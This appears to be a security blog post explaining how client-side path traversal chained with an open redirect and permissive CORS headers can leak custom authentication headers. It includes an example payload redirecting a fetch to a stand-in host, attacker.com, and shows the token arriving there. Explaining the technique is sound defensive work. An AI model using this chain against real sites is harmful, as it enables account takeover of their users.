

# CSPT + Open Redirect = Account Takeover?


## what is CSPT

CSPT (Client side path traversal) its a vulnerability about path traversal in the browser, URLs. it happens when an application fetches some path with your input in it, allowing you to use `../` and other special characters to rewrite the path to somewhere else


example:
```js
userInput = new URLSearchParams(location.search).get('username'); // example: ?username=../../../SomePage
fetch("/api/users/" + userInput).then(response => {console.log(response.url)});
> https://example.com/SomePage
```

just an example in how fetch function will normalize the path and how userInput being inside the fetch without escaping (most of sites doing that)

by this vulnerability you can control the path of fetch, and if the application uses the response of that fetch, you might have semi-control over the content, semi because you can control the path but not the response itself, you're limited to the endpoints that already exist on the website and what they return

but if you find an endpoint where you can control the response, you might be able to control what the application gets from the fetch, in other words you can control the result of fetch

so basically, CSPT lets you change where the browser sends the request, but you're still limited to the host of url


## how browsers handle redirects and headers

as you know, when you send a request using fetch and the server responds with a redirect (like 302), the browser will automatically follow that redirect and send another request to the new URL

for example:
```js
fetch("/api/user");
```
lets say `/api/user` returns:
```
HTTP/1.1 302 Found
Location: https://another-domain.com/
```

the browser will follow that redirect and send new request to https://another-domain.com/
nothing interesting till now, right? but what if the orignal request had some headers? will the browser send them to the new url as well?

well, it depends on the headers

lets say the application uses an Authorization header for authentication:
```js
fetch("/api/user", {
    headers: {
        "Authorization":"Bearer SECRET"
    }
});
```
if /api/user redirects to another origin, the browser will remove the Authorization header before following the redirect so the token wont be sent to the new origin

this is a normal behavior on fetch https://fetch.spec.whatwg.org/#http-redirect-fetch 
on step 13:
> If request’s current URL’s origin is not same origin with locationURL’s origin, then for each headerName of CORS non-wildcard request-header name, delete headerName from request’s header list.

and the [CORS non-wildcard request-header](https://fetch.spec.whatwg.org/#cors-non-wildcard-request-header-name) is a header name that is a byte-case-insensitive match for `Authorization`

we cant do anything in this case (the app uses Authorization header), but what if the application doesnt use Authorization header and insted it uses custom header like X-User-Token or X-Api-Key and like that of these headers...
unlike Authorization header, custom headers like what i mention above, are not automaticlly removed, by that redirect rule when the origin chagnes the header will still be there when the browser follows the redirect, but that doesnt mean it will be sent directly, there is a little problem, browser wont send the new custom headers directly without checking if its allowed firist, thats where CORS come in

## chaining CSPT with an open redirect

so far we know that CSPT allows us to control the path of a fetch request, and we also know that browsers dont automatically remove custom headers when following a redirect to another origin

but what if we combine both of them?

lets say we have a website thats vulnerable to CSPT, and the website has a server-side open redirect endpoint, something like `/redirect?url=https://attacker.com`

normally, CSPT only lets us change the path of the request on the same origin, but what if we use it to point the fetch request to that open redirect endpoint instead?

lets take an example:

```js
const userInput = new URLSearchParams(location.search).get("username");

fetch("/api/users/" + userInput, {
    headers: {
        "X-User-Token": "SECRET"
    }
});
```

the application takes the username from the URL and uses it inside fetch, and as we explained before, we can use `../` to change the path

so what if we give it something like this?

```
?username=../../../redirect%3Furl%3Dhttps%3A%2F%2Fattacker.com
```

now instead of requesting `/api/users/{username}`, the fetch will request:

```
https://example.com/redirect?url=https://attacker.com
```

with the `X-User-Token` header

and since `/redirect` is an open redirect, it will respond with:

```
HTTP/1.1 302 Found
Location: https://attacker.com
```

now fetch will try to follow that redirect to our server, and as we mentioned above, custom headers like `X-User-Token` are not removed by the same rule that removes Authorization

so we managed to use CSPT to turn a same origin request into a cross origin request, while keeping the custom authentication header

does that mean the token will be sent to our server?

not yet, theres one more problem we need to deal with, and thats the CORS preflight

## the CORS Preflight problem

so we tried to make fetch follow the open redirect to our server while keeping the custom authentication header, but theres a problem

when the browser tries to send a cross origin request with a custom header like `X-User-Token`, it wont send the actual request directly

the reason is that `X-User-Token` is not a CORS-safelisted request header, which means the browser needs to perform a CORS preflight before sending the actual request

this behavior is defined in the [Fetch Standard](https://fetch.spec.whatwg.org/#concept-main-fetch), under Main fetch, where the browser checks the request's unsafe-request flag, method, and CORS-unsafe request-header names to decide if a preflight is required

the preflight itself is an OPTIONS request that checks whether the destination server allows the method and headers of the original request

for example, instead of sending our GET request with the token directly to `attacker.com`, the browser will first send:

```
OPTIONS / HTTP/1.1
Host: attacker.com
Origin: https://example.com
Access-Control-Request-Method: GET
Access-Control-Request-Headers: x-user-token
```

the preflight request doesnt include the token itself, it only includes the header name in `Access-Control-Request-Headers`, not its value

this is also defined in the [CORS-preflight fetch](https://fetch.spec.whatwg.org/#cors-preflight-fetch) algorithm, where the browser creates a preflight request and adds the `Access-Control-Request-Method` and `Access-Control-Request-Headers` headers based on the original request

the browser is basically asking our server if its allowed to send a GET request with the `X-User-Token` header

if the server doesnt respond with the required CORS headers, the browser will fail the preflight check and wont send the actual GET request

which means we wont receive the authentication token, even though the browser kept the custom header during the redirect

so how can we make the browser actually send the request with our token?


## bypassing the Preflight restriction with CORS headers

the preflight request is not really something we need to bypass, we just need the server to allow it

since the fetch is reuqesting to our site, ITS OUR SITE we can control the response header and tell the browser to allow everything by the CORS header 

for example, the server can respond to the OPTIONS request with:

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET
Access-Control-Allow-Headers: X-User-Token
```

these header will do:

- `Access-Control-Allow-Origin: *` allows requests from any origin
- `Access-Control-Allow-Methods: GET` tells the browser that GET method requests are allowed
- `Access-Control-Allow-Headers: X-User-Token` tells the browser that the `X-User-Token` header is allowed


the browser checks the response status, the allowed methods, and the allowed headers to decide whether the actual request can proceed

if the preflight check succeeds, the browser can now send the GET request with the custom header

and thats basically the whole idea, we didnt bypass any browser security restriction, we just made the destination server approve the cross origin request using CORS headers


## stealing the authentication token

now that we know how to pass the CORS preflight check, lets combine everything i explained

once the preflight succeeds, the browser can continue with the actual GET request to our server, but this time the request will include the `X-User-Token` header with its original value

for example, assuming the browser follows the redirect successfully, our server would receive something like:

```
GET / HTTP/1.1
Host: attacker.com
Origin: null
X-User-Token: SECRET
```

and thats it!, the authentication token is now exposed to our server

just a simple graph i made to explain:

